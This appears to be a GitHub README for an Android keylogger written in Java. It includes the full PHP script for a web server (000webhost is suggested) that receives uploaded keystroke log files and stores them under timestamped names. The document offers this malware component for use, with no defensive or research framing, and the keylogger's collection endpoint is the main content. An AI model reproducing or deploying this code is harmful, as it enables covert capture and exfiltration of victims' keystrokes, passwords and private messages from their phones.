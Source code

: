 # Android-Keylogger
This is a simple solucion Android's Keylogger, this program is writted in Java and used more componet like a PHP for the creation the log of file in a web server. The web server have been used 000webhost.com but every web server can be used.

this is the php code:

 if (isset($_FILES["uploaded_file"]["name"])) {
$new_name = "Key".date("his").".txt";
$name = $_FILES["uploaded_file"]["name"];
$tmp_name = $_FILES['uploaded_file']['tmp_name'];
$error = $_FILES['uploaded_file']['error'];

if (!empty($name)) {
    $location = './Key/';

 if ( ! is_dir($location)) {
 mkdir($location);
 }

    if  (move_uploaded_file($tmp_name, $location.$name)){
        rename( $location.$name, $location.$new_name);
        echo 'Uploaded';
    }

} else {
    echo 'please choose a file';
}
}
 
![keylog](https://user-images.githubusercontent.com/31372178/130394572-d56767e4-bc5a-4a21-bf47-ce1c232f5b07.PNG)
